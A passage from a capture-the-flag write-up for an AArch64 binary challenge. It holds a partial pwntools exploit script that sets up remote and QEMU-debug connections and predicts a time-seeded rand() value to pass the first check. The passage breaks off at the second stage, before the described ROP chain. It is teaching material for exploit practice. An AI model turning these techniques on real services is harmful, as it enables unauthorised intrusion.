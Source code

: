 4. `vuln3()`
    - We have all we need now, just perform a simple AARCH64-ROP

#### Script

```python!
from pwn import *
import ctypes
import time
import subprocess
import os

exe = './chall'

e = context.binary = ELF(exe)

if args.REMOTE:
	
	libc = ELF('./libc.so.6')							# remote
	leak_offset = 0x273fc				# REMOTE

	ip = '152.69.210.130'  # change your ip and port here
	# ip = '0.0.0.0'
	port = 1337
	r = remote(ip, port)    
    
elif args.LOCAL:
	libc = ELF('/usr/lib/aarch64-linux-gnu/libc.so.6') 	# local
	leak_offset = 0x273fc				# LOCAL

	r = process(['./qemu_aarch64', exe])
	# r = process(['./ld-linux-aarch64.so.1', '--library-path', '.', exe])
    
else:
	r = process(['./qemu_aarch64', '-g', '9999', exe])
	libc = ELF('/usr/lib/aarch64-linux-gnu/libc.so.6') 	# local
	leak_offset = 0x273fc				# LOCAL

	# subprocess.Popen(['gnome-terminal', '--', 'gdb-multiarch', '-q', exe])

	gdbscript = '''
	target remote :9999
	b __libc_start_main@plt
	c
	b *($x0-0x24c)
	b *($x0-0x328)
	b *($x0-0x318)
	'''


# ================== vuln1 ===================== #

r.recvuntil(b"Enter your guess: ")

libc_vuln1 = ctypes.CDLL(None)
libc_vuln1.srand(int(time.time()))

# Generate a magic number
magic_number = libc_vuln1.rand() % 10000 + 1

r.sendline(str(magic_number).encode())

# ================== vuln2 ===================== #

```